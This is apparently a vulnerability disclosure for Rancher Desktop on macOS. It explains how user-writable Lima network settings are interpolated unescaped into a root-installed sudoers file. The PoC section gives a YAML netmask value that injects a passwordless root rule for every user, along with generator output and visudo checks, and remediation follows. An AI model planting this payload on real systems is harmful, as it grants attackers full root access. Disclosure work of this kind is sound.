

# User-Writable Lima networks.yaml Values Are Interpolated Unfiltered into the Root-Installed sudoers File on Rancher Desktop for macOS

| Field | Value |
|---|---|
| Project | [rancher-sandbox/rancher-desktop](https://github.com/rancher-sandbox/rancher-desktop) |
| Vulnerability Type | Improper Neutralization of Directives in Dynamically Generated Configuration (CWE-137) leading to Privilege Escalation (CWE-269) |
| Severity | High — CVSS 3.1 Base Score: 7.3 |
| CVSS Vector | `AV:L/AC:L/PR:L/UI:R/S:U/C:H/I:H/A:H` |
| Affected Versions | macOS builds; verified on main commit `98172ccd` (2026-10-13), current release v1.24.0 (2026-07-29) |
| Authentication | Local user session (the malicious `networks.yaml` is written by any process running as the user); the final install happens inside the normal Rancher Desktop startup sudo prompt |

---

## Summary

On every backend start, Rancher Desktop regenerates the Lima-related sudoers file and installs it as root at `/private/etc/sudoers.d/zzzzz-rancher-desktop-lima` (`createLimaSudoersFile` → `sudo cp`, `pkg/rancher-desktop/backend/lima.ts`). The generator, `sudoersFile(config)`, interpolates `gateway`, `dhcpEnd`, and `netmask` strings from the Lima network configuration at `~/Library/Application Support/rancher-desktop/lima/_config/networks.yaml` — a file owned and writable by the user — directly into the sudoers template with no escaping, format validation, or `visudo -c` check. The only validation `installCustomLimaNetworkConfig` performs is that `paths.varRun` equals the built-in value; a hostile file that keeps that one field passes and its network fields flow into a file that sudo parses as root.

Because YAML double-quoted strings can carry real newlines and backslashes, a `netmask` value can break out of the `socket_vmnet` command line and inject an additional sudoers rule. The generated file remains syntactically valid sudoers, so it is loaded as-is; the next time Rancher Desktop starts and the user approves its ordinary sudo prompt, the injected policy — e.g. `ALL ALL=(ALL) NOPASSWD: ALL` — takes effect for every local user.

## Details

`pkg/rancher-desktop/backend/lima.ts`, `sudoersFile()` — raw template interpolation of user-writable values:

```typescript
sudoers = `%everyone ALL=(root:wheel) NOPASSWD:NOSETENV: \\
    /opt/rancher-desktop/bin/socket_vmnet ... --vmnet-gateway=${ host.gateway } --vmnet-dhcp-end=${ host.dhcpEnd } --vmnet-mask=${ host.netmask } /private/var/run/socket_vmnet.${ name }, \\
    /usr/bin/pkill -F /private/var/run/${ name }_socket_vmnet.pid
`;
```

`installCustomLimaNetworkConfig()` — the sole gatekeeping check (line ~1497):

```typescript
config = yaml.parse(await fs.promises.readFile(networkPath, 'utf8'));
if (config?.paths?.varRun !== NETWORKS_CONFIG.paths.varRun) {
    // ...rename the file away and fall back to the built-in default
}
// else: attacker-supplied networks.* values are kept and rendered verbatim
```

`createLimaSudoersFile()` then writes the rendered policy to a temp file and returns the root command that installs it (line ~1364):

```typescript
commands.push(`mkdir -p "${ path.dirname(LIMA_SUDOERS_LOCATION) }" && cp "${ tmpFile }" ${ LIMA_SUDOERS_LOCATION } && rm -f "${ tmpFile }"`);
```

## PoC

Verified against the shipped source of main `98172ccd`: the actual `sudoersFile()` function was extracted verbatim from `lima.ts` and executed on the `LimaNetworkConfiguration` that `yaml.parse` produces from a hostile `networks.yaml` — the same parse `installCustomLimaNetworkConfig` performs. The hostile file keeps `paths.varRun: /private/var/run` (so the only validation passes) and sets:

```yaml
  host:
    mode: host
    gateway: 192.168.206.1
    dhcpEnd: 192.168.206.254
    netmask: "255.255.255.0\nALL ALL=(ALL) NOPASSWD: ALL, \\\n/private/var/run/socket_vmnet.host,"
```

which YAML parses (same library the product uses) to a string containing real newlines:

```
"255.255.255.0\nALL ALL=(ALL) NOPASSWD: ALL, \\\n/private/var/run/socket_vmnet.host,"
```

**Running the real generator over it:**

```
[*] extracted sudoersFile verbatim from lima.ts: 2041 chars
[*] injected sudoers rule present in generated file: true
[+] injected rule line:
    ALL ALL=(ALL) NOPASSWD: ALL, \
```

The generated file (host block shown; the mask line ends, then the injected rule begins, and the backslash continuations fold the template's own trailing commands into the same rule — keeping the file a single valid sudoers rule):

```
%everyone ALL=(root:wheel) NOPASSWD:NOSETENV: \
    /opt/rancher-desktop/bin/socket_vmnet ... --vmnet-mask=255.255.255.0
ALL ALL=(ALL) NOPASSWD: ALL, \
/private/var/run/socket_vmnet.host, /private/var/run/socket_vmnet.host, \
    /usr/bin/pkill -F /private/var/run/host_socket_vmnet.pid
```

**Syntax validation with the system sudo toolchain:**

```
$ /usr/sbin/visudo -cf malicious_sudoers
malicious_sudoers: parsed OK
```

**Negative control — the default `networks-config.yaml` through the identical code path:**

```
[*] negative control (default networks.yaml) contains injected rule: false
$ /usr/sbin/visudo -cf benign_sudoers
benign_sudoers: parsed OK
```

**Real-environment reproduction** (the product itself, run for this test): the generator shipped in `pkg/rancher-desktop/backend/lima.ts` was executed unmodified (brace-balanced verbatim extraction from the source file) on the parsed hostile configuration; it emitted a `visudo`-valid sudoers file containing a passwordless root rule for all users. The remaining step in the product — `cp` of that file to `/private/etc/sudoers.d/` under the standard startup sudo prompt — is the unchanged, legitimate `createLimaSudoersFile` flow and was deliberately not executed against the live system.



---

## Impact

Malware or any process running as the local user can plant the hostile `networks.yaml` and wait. On the next Rancher Desktop start (or backend restart), the user approves the application's completely normal privilege-elevation prompt — the one they approve on every launch — and the injected policy is installed as root. From then on every local user can execute arbitrary commands as root without any password (`sudo whoami` succeeds for everyone), surviving Rancher Desktop restarts, since the file is regenerated from the same hostile config each time. This is a full local privilege-escalation primitive delivered through the product's root installation path.

### Remediation

1. Validate every interpolated network field in `installCustomLimaNetworkConfig` before accepting the file: strict IPv4/IPv6 grammar for `gateway`, `dhcpEnd`, and `netmask` (e.g. `netmask`/prefix lengths, no newlines, no backslashes, no punctuation outside the address grammar), rejecting the file to the `.orig.yaml` path on any mismatch.
2. After rendering, pass the generated sudoers through `visudo -cf` (or an equivalent strict parser) and abort the privileged install on any error; additionally assert the rendered content hashes to an allow-listed shape derived from validated inputs.
3. Stop interpolating raw values into a privileged template: construct the sudoers file from constants plus validated, typed values (or reference values indirectly via a fixed helper script with arguments validated at exec time).
4. Same class, second door: the temp-file path comes from `os.tmpdir()` and is spliced into the root shell command with only single quotes filtered (`sudoExec`, lima.ts ~1109–1116); sanitize the environment (`TMPDIR`) or build the command with `execFile`-style argument arrays so path characters cannot become command syntax.
